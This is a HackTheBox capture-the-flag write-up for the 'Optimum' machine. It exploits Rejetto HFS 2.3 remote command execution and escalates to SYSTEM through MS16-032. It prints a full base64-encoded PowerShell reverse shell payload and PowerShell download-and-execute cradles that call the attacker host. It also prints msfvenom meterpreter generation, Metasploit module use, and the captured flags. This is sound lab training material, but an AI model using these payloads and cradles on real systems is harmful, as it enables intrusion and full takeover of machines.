



---
Category:
  - B2R
Difficulty: Easy
Platform: HackTheBox
Status: 3. Complete
tags:
  - CVE-2014-6287
  - CVE-2016-0099
  - HFS
  - MS16-032
  - RCE
  - Windows
---
# Resolution summary

>[!summary]
>- The target machine was running **Rejetto HttpFileServer 2.3** on port 80, which is vulnerable to **Remote Command Execution** caused by a parsing error
>- Target machine missed some security fixes, resulting to be vulnerable to **MS16-032** (Secondary Logon Handle) privilege escalation exploit

## Improved skills

- Exploit known vulnerabilities

## Used tools

- nmap
- gobuster

---

# Information Gathering

Scanned all TCP ports:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Optimum]
└─$ sudo nmap -p- 10.10.10.8 -sS -Pn -oN scans/all-tcp-ports.txt -v
...
PORT   STATE SERVICE
80/tcp open  http
...
```

Enumerated open TCP ports:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Optimum]
└─$ sudo nmap -p80 10.10.10.8 -sV -sT -sC -Pn -oN scans/open-tcp-ports.txt                                                               ...
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
...
```

# Enumeration

## Port 80 - HTTP (HttpFileServer 2.3)



Known vulnerabilities:



# Exploitation

## HFS (HTTP File Server) 2.3.x - Remote Command Execution (3)

- [https://www.exploit-db.com/exploits/34668](https://www.exploit-db.com/exploits/34668)
- [https://www.exploit-db.com/exploits/39161](https://www.exploit-db.com/exploits/39161)
- [https://www.exploit-db.com/exploits/49584](https://www.exploit-db.com/exploits/49584)
- [https://www.exploit-db.com/exploits/49125](https://www.exploit-db.com/exploits/49125)

[Offensive Security's Exploit Database Archive](https://www.exploit-db.com/exploits/49584)

Tested the RCE:



Downloaded and fixed the exploit:

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Optimum/exploit]
└─$ ssplt -m 49584
  Exploit: HFS (HTTP File Server) 2.3.x - Remote Command Execution (3)
      URL: https://www.exploit-db.com/exploits/49584
     Path: /usr/share/exploitdb/exploits/windows/remote/49584.py
File Type: ASCII text, with very long lines, with CRLF line terminators

Copied to: /home/kali/CTFs/HTB/box/Optimum/exploit/49584.py

┌──(kali㉿kali)-[~/…/HTB/box/Optimum/exploit]
└─$ nano 49584.py
...
lhost = "10.10.14.24"
lport = 10099
rhost = "10.10.10.8"
rport = 80
...
```

Executed the exploit and obtained a reverse shell:

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Optimum/exploit]
└─$ python3 49584.py

Encoded the command in base64 format...

Encoded the payload and sent a HTTP GET request to the target...

Printing some information for debugging...
lhost:  10.10.14.24
lport:  10099
rhost:  10.10.10.8
rport:  80
payload:  exec|powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -WindowStyle Hidden -EncodedCommand JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA0AC4AMgA0ACIALAAxADAAMAA5ADkAKQA7ACAAJABzAHQAcgBlAGEAbQAgAD0AIAAkAGMAbABpAGUAbgB0AC4ARwBlAHQAUwB0AHIAZQBhAG0AKAApADsAIABbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7ACAAdwBoAGkAbABlACgAKAAkAGkAIAA9ACAAJABzAHQAcgBlAGEAbQAuAFIAZQBhAGQAKAAkAGIAeQB0AGUAcwAsADAALAAkAGIAeQB0AGUAcwAuAEwAZQBuAGcAdABoACkAKQAgAC0AbgBlACAAMAApAHsAOwAgACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAJABpACkAOwAgACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgASQBuAHYAbwBrAGUALQBFAHgAcAByAGUAcwBzAGkAbwBuACAAJABkAGEAdABhACAAMgA+ACYAMQAgAHwAIABPAHUAdAAtAFMAdAByAGkAbgBnACAAKQA7ACAAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABHAGUAdAAtAEwAbwBjAGEAdABpAG8AbgApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAIAAkAHMAZQBuAGQAYgB5AHQAZQAgAD0AIAAoAFsAdABlAHgAdAAuAGUAbgBjAG8AZABpAG4AZwBdADoAOgBBAFMAQwBJAEkAKQAuAEcAZQB0AEIAeQB0AGUAcwAoACQAcwBlAG4AZABiAGEAYwBrADIAKQA7ACAAJABzAHQAcgBlAGEAbQAuAFcAcgBpAHQAZQAoACQAcwBlAG4AZABiAHkAdABlACwAMAAsACQAcwBlAG4AZABiAHkAdABlAC4ATABlAG4AZwB0AGgAKQA7ACAAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACAAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA

Listening for connection...
listening on [any] 10099 ...
connect to [10.10.14.24] from (UNKNOWN) [10.10.10.8] 49162
whoami
optimum\kostas
PS C:\Users\kostas\Desktop>
```

# Privilege Escalation

## Local enumeration

Enumerated system info:

```powershell
PS C:\Users\kostas\Desktop> systeminfo

Host Name:                 OPTIMUM
OS Name:                   Microsoft Windows Server 2012 R2 Standard
OS Version:                6.3.9600 N/A Build 9600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:
Product ID:                00252-70000-00000-AA535
Original Install Date:     18/3/2017, 1:51:36 ??
System Boot Time:          21/5/2021, 12:13:07 ??
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest
Total Physical Memory:     4.095 MB
Available Physical Memory: 3.439 MB
Virtual Memory: Max Size:  5.503 MB
Virtual Memory: Available: 4.890 MB
Virtual Memory: In Use:    613 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              \\OPTIMUM
Hotfix(s):                 31 Hotfix(s) Installed.
                           [01]: KB2959936
                           [02]: KB2896496
                           [03]: KB2919355
                           [04]: KB2920189
                           [05]: KB2928120
                           [06]: KB2931358
                           [07]: KB2931366
                           [08]: KB2933826
                           [09]: KB2938772
                           [10]: KB2949621
                           [11]: KB2954879
                           [12]: KB2958262
                           [13]: KB2958263
                           [14]: KB2961072
                           [15]: KB2965500
                           [16]: KB2966407
                           [17]: KB2967917
                           [18]: KB2971203
                           [19]: KB2971850
                           [20]: KB2973351
                           [21]: KB2973448
                           [22]: KB2975061
                           [23]: KB2976627
                           [24]: KB2977629
                           [25]: KB2981580
                           [26]: KB2987107
                           [27]: KB2989647
                           [28]: KB2998527
                           [29]: KB3000850
                           [30]: KB3003057
                           [31]: KB3014442
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) 82574L Gigabit Network Connection
                                 Connection Name: Ethernet0
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.8
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.
```

searched for possible exploits with windows-exploit-suggester:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Optimum]
└─$ /opt/post-expl/windows/Windows-Exploit-Suggester/windows-exploit-suggester.py -i loot/systeminfo.txt -d /opt/post-expl/windows/Windows-Exploit-Suggester/2021-04-22-mssb.xls
[*] initiating winsploit version 3.3...
[*] database file detected as xls or xlsx based on extension
[*] attempting to read from the systeminfo input file
[+] systeminfo input file read successfully (ascii)
[*] querying database file for potential vulnerabilities
[*] comparing the 32 hotfix(es) against the 266 potential bulletins(s) with a database of 137 known exploits
[*] there are now 246 remaining vulns
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
[+] windows version identified as 'Windows 2012 R2 64-bit'
[*]
[E] MS16-135: Security Update for Windows Kernel-Mode Drivers (3199135) - Important
[*]   https://www.exploit-db.com/exploits/40745/ -- Microsoft Windows Kernel - win32k Denial of Service (MS16-135)
[*]   https://www.exploit-db.com/exploits/41015/ -- Microsoft Windows Kernel - 'win32k.sys' 'NtSetWindowLongPtr' Privilege Escalation (MS16-135) (2)
[*]   https://github.com/tinysec/public/tree/master/CVE-2016-7255
[*]
[E] MS16-098: Security Update for Windows Kernel-Mode Drivers (3178466) - Important
[*]   https://www.exploit-db.com/exploits/41020/ -- Microsoft Windows 8.1 (x64) - RGNOBJ Integer Overflow (MS16-098)
[*]
[M] MS16-075: Security Update for Windows SMB Server (3164038) - Important
[*]   https://github.com/foxglovesec/RottenPotato
[*]   https://github.com/Kevin-Robertson/Tater
[*]   https://bugs.chromium.org/p/project-zero/issues/detail?id=222 -- Windows: Local WebDAV NTLM Reflection Elevation of Privilege
[*]   https://foxglovesecurity.com/2016/01/16/hot-potato/ -- Hot Potato - Windows Privilege Escalation
[*]
[E] MS16-074: Security Update for Microsoft Graphics Component (3164036) - Important
[*]   https://www.exploit-db.com/exploits/39990/ -- Windows - gdi32.dll Multiple DIB-Related EMF Record Handlers Heap-Based Out-of-Bounds Reads/Memory Disclosure (MS16-074), PoC
[*]   https://www.exploit-db.com/exploits/39991/ -- Windows Kernel - ATMFD.DLL NamedEscape 0x250C Pool Corruption (MS16-074), PoC
[*]
[E] MS16-063: Cumulative Security Update for Internet Explorer (3163649) - Critical
[*]   https://www.exploit-db.com/exploits/39994/ -- Internet Explorer 11 - Garbage Collector Attribute Type Confusion (MS16-063), PoC
[*]
[E] MS16-032: Security Update for Secondary Logon to Address Elevation of Privile (3143141) - Important
[*]   https://www.exploit-db.com/exploits/40107/ -- MS16-032 Secondary Logon Handle Privilege Escalation, MSF
[*]   https://www.exploit-db.com/exploits/39574/ -- Microsoft Windows 8.1/10 - Secondary Logon Standard Handles Missing Sanitization Privilege Escalation (MS16-032), PoC
[*]   https://www.exploit-db.com/exploits/39719/ -- Microsoft Windows 7-10 & Server 2008-2012 (x32/x64) - Local Privilege Escalation (MS16-032) (PowerShell), PoC
[*]   https://www.exploit-db.com/exploits/39809/ -- Microsoft Windows 7-10 & Server 2008-2012 (x32/x64) - Local Privilege Escalation (MS16-032) (C#)
[*]
[M] MS16-016: Security Update for WebDAV to Address Elevation of Privilege (3136041) - Important
[*]   https://www.exploit-db.com/exploits/40085/ -- MS16-016 mrxdav.sys WebDav Local Privilege Escalation, MSF
[*]   https://www.exploit-db.com/exploits/39788/ -- Microsoft Windows 7 - WebDAV Privilege Escalation Exploit (MS16-016) (2), PoC
[*]   https://www.exploit-db.com/exploits/39432/ -- Microsoft Windows 7 SP1 x86 - WebDAV Privilege Escalation (MS16-016) (1), PoC
[*]
[E] MS16-014: Security Update for Microsoft Windows to Address Remote Code Execution (3134228) - Important
[*]   Windows 7 SP1 x86 - Privilege Escalation (MS16-014), https://www.exploit-db.com/exploits/40039/, PoC
[*]
[E] MS16-007: Security Update for Microsoft Windows to Address Remote Code Execution (3124901) - Important
[*]   https://www.exploit-db.com/exploits/39232/ -- Microsoft Windows devenum.dll!DeviceMoniker::Load() - Heap Corruption Buffer Underflow (MS16-007), PoC
[*]   https://www.exploit-db.com/exploits/39233/ -- Microsoft Office / COM Object DLL Planting with WMALFXGFXDSP.dll (MS-16-007), PoC
[*]
[E] MS15-132: Security Update for Microsoft Windows to Address Remote Code Execution (3116162) - Important
[*]   https://www.exploit-db.com/exploits/38968/ -- Microsoft Office / COM Object DLL Planting with comsvcs.dll Delay Load of mqrt.dll (MS15-132), PoC
[*]   https://www.exploit-db.com/exploits/38918/ -- Microsoft Office / COM Object els.dll DLL Planting (MS15-134), PoC
[*]
[E] MS15-112: Cumulative Security Update for Internet Explorer (3104517) - Critical
[*]   https://www.exploit-db.com/exploits/39698/ -- Internet Explorer 9/10/11 - CDOMStringDataList::InitFromString Out-of-Bounds Read (MS15-112)
[*]
[E] MS15-111: Security Update for Windows Kernel to Address Elevation of Privilege (3096447) - Important
[*]   https://www.exploit-db.com/exploits/38474/ -- Windows 10 Sandboxed Mount Reparse Point Creation Mitigation Bypass (MS15-111), PoC
[*]
[E] MS15-102: Vulnerabilities in Windows Task Management Could Allow Elevation of Privilege (3089657) - Important
[*]   https://www.exploit-db.com/exploits/38202/ -- Windows CreateObjectTask SettingsSyncDiagnostics Privilege Escalation, PoC
[*]   https://www.exploit-db.com/exploits/38200/ -- Windows Task Scheduler DeleteExpiredTaskAfter File Deletion Privilege Escalation, PoC
[*]   https://www.exploit-db.com/exploits/38201/ -- Windows CreateObjectTask TileUserBroker Privilege Escalation, PoC
[*]
[E] MS15-097: Vulnerabilities in Microsoft Graphics Component Could Allow Remote Code Execution (3089656) - Critical
[*]   https://www.exploit-db.com/exploits/38198/ -- Windows 10 Build 10130 - User Mode Font Driver Thread Permissions Privilege Escalation, PoC
[*]   https://www.exploit-db.com/exploits/38199/ -- Windows NtUserGetClipboardAccessToken Token Leak, PoC
[*]
[M] MS15-078: Vulnerability in Microsoft Font Driver Could Allow Remote Code Execution (3079904) - Critical
[*]   https://www.exploit-db.com/exploits/38222/ -- MS15-078 Microsoft Windows Font Driver Buffer Overflow
[*]
[E] MS15-052: Vulnerability in Windows Kernel Could Allow Security Feature Bypass (3050514) - Important
[*]   https://www.exploit-db.com/exploits/37052/ -- Windows - CNG.SYS Kernel Security Feature Bypass PoC (MS15-052), PoC
[*]
[M] MS15-051: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (3057191) - Important
[*]   https://github.com/hfiref0x/CVE-2015-1701, Win32k Elevation of Privilege Vulnerability, PoC
[*]   https://www.exploit-db.com/exploits/37367/ -- Windows ClientCopyImage Win32k Exploit, MSF
[*]
[E] MS15-010: Vulnerabilities in Windows Kernel-Mode Driver Could Allow Remote Code Execution (3036220) - Critical
[*]   https://www.exploit-db.com/exploits/39035/ -- Microsoft Windows 8.1 - win32k Local Privilege Escalation (MS15-010), PoC
[*]   https://www.exploit-db.com/exploits/37098/ -- Microsoft Windows - Local Privilege Escalation (MS15-010), PoC
[*]   https://www.exploit-db.com/exploits/39035/ -- Microsoft Windows win32k Local Privilege Escalation (MS15-010), PoC
[*]
[E] MS15-001: Vulnerability in Windows Application Compatibility Cache Could Allow Elevation of Privilege (3023266) - Important
[*]   http://www.exploit-db.com/exploits/35661/ -- Windows 8.1 (32/64 bit) - Privilege Escalation (ahcache.sys/NtApphelpCacheControl), PoC
[*]
[E] MS14-068: Vulnerability in Kerberos Could Allow Elevation of Privilege (3011780) - Critical
[*]   http://www.exploit-db.com/exploits/35474/ -- Windows Kerberos - Elevation of Privilege (MS14-068), PoC
[*]
[M] MS14-064: Vulnerabilities in Windows OLE Could Allow Remote Code Execution (3011443) - Critical
[*]   https://www.exploit-db.com/exploits/37800// -- Microsoft Windows HTA (HTML Application) - Remote Code Execution (MS14-064), PoC
[*]   http://www.exploit-db.com/exploits/35308/ -- Internet Explorer OLE Pre-IE11 - Automation Array Remote Code Execution / Powershell VirtualAlloc (MS14-064), PoC
[*]   http://www.exploit-db.com/exploits/35229/ -- Internet Explorer <= 11 - OLE Automation Array Remote Code Execution (#1), PoC
[*]   http://www.exploit-db.com/exploits/35230/ -- Internet Explorer < 11 - OLE Automation Array Remote Code Execution (MSF), MSF
[*]   http://www.exploit-db.com/exploits/35235/ -- MS14-064 Microsoft Windows OLE Package Manager Code Execution Through Python, MSF
[*]   http://www.exploit-db.com/exploits/35236/ -- MS14-064 Microsoft Windows OLE Package Manager Code Execution, MSF
[*]
[M] MS14-060: Vulnerability in Windows OLE Could Allow Remote Code Execution (3000869) - Important
[*]   http://www.exploit-db.com/exploits/35055/ -- Windows OLE - Remote Code Execution 'Sandworm' Exploit (MS14-060), PoC
[*]   http://www.exploit-db.com/exploits/35020/ -- MS14-060 Microsoft Windows OLE Package Manager Code Execution, MSF
[*]
[M] MS14-058: Vulnerabilities in Kernel-Mode Driver Could Allow Remote Code Execution (3000061) - Critical
[*]   http://www.exploit-db.com/exploits/35101/ -- Windows TrackPopupMenu Win32k NULL Pointer Dereference, MSF
[*]
[E] MS13-101: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (2880430) - Important
[M] MS13-090: Cumulative Security Update of ActiveX Kill Bits (2900986) - Critical
[*] done
```

Searched for possible exploit with Sherlock:

```powershell
PS C:\Users\kostas\Desktop> powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://10.10.14.24/Sherlock.ps1','sh.ps1')
PS C:\Users\kostas\Desktop> . .\sh.ps1
PS C:\Users\kostas\Desktop> Find-AllVulns
...
Title      : Secondary Logon Handle
MSBulletin : MS16-032
CVEID      : 2016-0099
Link       : https://www.exploit-db.com/exploits/39719/
VulnStatus : Appears Vulnerable

Title      : Windows Kernel-Mode Drivers EoP
MSBulletin : MS16-034
CVEID      : 2016-0093/94/95/96
Link       : https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-034?
VulnStatus : Appears Vulnerable

Title      : Win32k Elevation of Privilege
MSBulletin : MS16-135
CVEID      : 2016-7255
Link       : https://github.com/FuzzySecurity/PSKernel-Primitives/tree/master/Sample-Exploits/MS16-135
VulnStatus : Appears Vulnerable
...
```

- MS16-032 --> No valid thread handle was captured, exiting!
- MS16-135 --> [!] Target architecture is x64 only!

Enumeration using **PowerUp.ps1**

```powershell
PS C:\Users\kostas\Desktop> powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.24/PowerUp.ps1'); Invoke-AllChecks"
[*] Running Invoke-AllChecks
[*] Checking if user is in a local group with administrative privileges...
[*] Checking for unquoted service paths...
[*] Checking service executable and argument permissions...
[*] Checking service permissions...
[*] Checking %PATH% for potentially hijackable DLL locations...
[*] Checking for AlwaysInstallElevated registry key...
[*] Checking for Autologon credentials in registry...
[*] Checking for modifidable registry autoruns and configs...
[*] Checking for modifiable schtask files/configs...
[*] Checking for unattended install files...
[*] Checking for encrypted web.config strings...
[*] Checking for encrypted application pool and virtual directory passwords...
[*] Checking for plaintext passwords in McAfee SiteList.xml files....
[*] Checking for cached Group Policy Preferences .xml files....
```

## MS16-032

Generated and hosted a meterpreter reverse shell:

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Optimum/exploit]
└─$ msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.10.14.24 LPORT=10099 -f exe -o mtr.exe                                                                                                                                    2 ⨯
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 200262 bytes
Final size of exe file: 206848 bytes
Saved as: mtr.exe

┌──(kali㉿kali)-[~/…/HTB/box/Optimum/exploit]
└─$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Downloaded and executed the reverse shell:

```powershell
PS C:\Users\kostas\Desktop> Invoke-WebRequest -Uri http://10.10.14.24/mtr.exe -OutFile mtr.exe
PS C:\Users\kostas\Desktop> .\mtr.exe
```

Obtained the shell:

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Optimum/exploit]
└─$ msfconsole -q                                                                                  
msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter_reverse_tcp 
payload => windows/x64/meterpreter_reverse_tcp
msf6 exploit(multi/handler) > set LPORT 10099
LPORT => 10099
msf6 exploit(multi/handler) > set LHOST 10.10.14.24
LHOST => 10.10.14.24
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.24:10099 
[*] Meterpreter session 1 opened (10.10.14.24:10099 -> 10.10.10.8:49178) at 2021-05-14 09:13:09 -0400

meterpreter > getuid
Server username: OPTIMUM\kostas
```

Escalated to SYSTEM:

```bash
msf6 exploit(multi/handler) > search MS16-032

Matching Modules
================

   #  Name                                                           Disclosure Date  Rank    Check  Description
   -  ----                                                           ---------------  ----    -----  -----------
   0  exploit/windows/local/ms16_032_secondary_logon_handle_privesc  2016-03-21       normal  Yes    MS16-032 Secondary Logon Handle Privilege Escalation

Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/local/ms16_032_secondary_logon_handle_privesc

msf6 exploit(multi/handler) > use 0
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > set session
set session                      set sessioncommunicationtimeout  set sessionexpirationtimeout     set sessionlogging               set sessionretrytotal            set sessionretrywait
msf6 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > set session 1
session => 1
msf6 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > set target 1
target => 1
msf6 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > set LHOST 10.10.14.24
LHOST => 10.10.14.24
msf6 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > run

[*] Started reverse TCP handler on 10.10.14.24:4444
[+] Compressed size: 1016
[!] Executing 32-bit payload on 64-bit ARCH, using SYSWOW64 powershell
[*] Writing payload file, C:\Users\kostas\AppData\Local\Temp\BOChZzxB.ps1...
[*] Compressing script contents...
[+] Compressed size: 3592
[*] Executing exploit script...
         __ __ ___ ___   ___     ___ ___ ___
        |  V  |  _|_  | |  _|___|   |_  |_  |
        |     |_  |_| |_| . |___| | |_  |  _|
        |_|_|_|___|_____|___|   |___|___|___|

                       [by b33f -> @FuzzySec]

[?] Operating system core count: 2
[>] Duplicating CreateProcessWithLogonW handle
[?] Done, using thread handle: 1436

[*] Sniffing out privileged impersonation token..

[?] Thread belongs to: svchost
[+] Thread suspended
[>] Wiping current impersonation token
[>] Building SYSTEM impersonation token
[?] Success, open SYSTEM token handle: 1432
[+] Resuming thread..

[*] Sniffing out SYSTEM shell..

[>] Duplicating SYSTEM token
[>] Starting token race
[>] Starting process race
[!] Holy handle leak Batman, we have a SYSTEM shell!!

Dwbyz60RS2qoidf8czigijMFyGpSZtQh
[+] Executed on target machine.
[*] Sending stage (175174 bytes) to 10.10.10.8
[*] Meterpreter session 2 opened (10.10.14.24:4444 -> 10.10.10.8:49181) at 2021-05-14 09:17:51 -0400
[+] Deleted C:\Users\kostas\AppData\Local\Temp\BOChZzxB.ps1

meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
```

# Trophy

>[!quote]
> As a matter of fact, yeah, they were foolproof. The problem is that you don’t have to protect yourself against fools. You have to protect yourself against people like me.
>
>\- Jeffery Deaver

>[!success]
>**User.txt**
>d0c39409d7b994a9a1389ebf38ef5f73

>[!success]
>**Root.txt**
>51ed1b36553c8461f4552c2e92b3eeed

